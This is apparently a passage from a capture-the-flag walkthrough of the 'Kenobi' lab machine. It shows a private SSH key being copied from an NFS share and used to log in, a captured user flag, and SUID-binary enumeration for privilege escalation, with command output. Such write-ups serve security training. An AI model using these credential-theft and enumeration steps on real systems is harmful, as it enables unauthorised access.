- cp /mnt/kenobiNFS/tmp/id_rsa .
- sudo chmod 600 id_rsa


---SSH---

- ssh -i id_rsa kenobi@$IP
- ls -a

'''
drwxr-xr-x 5 kenobi kenobi 4096 Sep  4  2019 .
drwxr-xr-x 3 root   root   4096 Sep  4  2019 ..
lrwxrwxrwx 1 root   root      9 Sep  4  2019 .bash_history -> /dev/null
-rw-r--r-- 1 kenobi kenobi  220 Sep  4  2019 .bash_logout
-rw-r--r-- 1 kenobi kenobi 3771 Sep  4  2019 .bashrc
drwx------ 2 kenobi kenobi 4096 Sep  4  2019 .cache
-rw-r--r-- 1 kenobi kenobi  655 Sep  4  2019 .profile
drwxr-xr-x 2 kenobi kenobi 4096 Sep  4  2019 share
drwx------ 2 kenobi kenobi 4096 Sep  4  2019 .ssh
-rw-rw-r-- 1 kenobi kenobi   33 Sep  4  2019 user.txt
-rw------- 1 kenobi kenobi  642 Sep  4  2019 .viminfo
'''

**Flag Found**
	/home/kenobi/user.txt: <d0b0f3f53b6caa532a83915e19224899>


# PrivEsc #

- sudo -l
	> password protected :c

- find / -type f -user root -perm -u=s 2>/dev/null

'''
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
'''
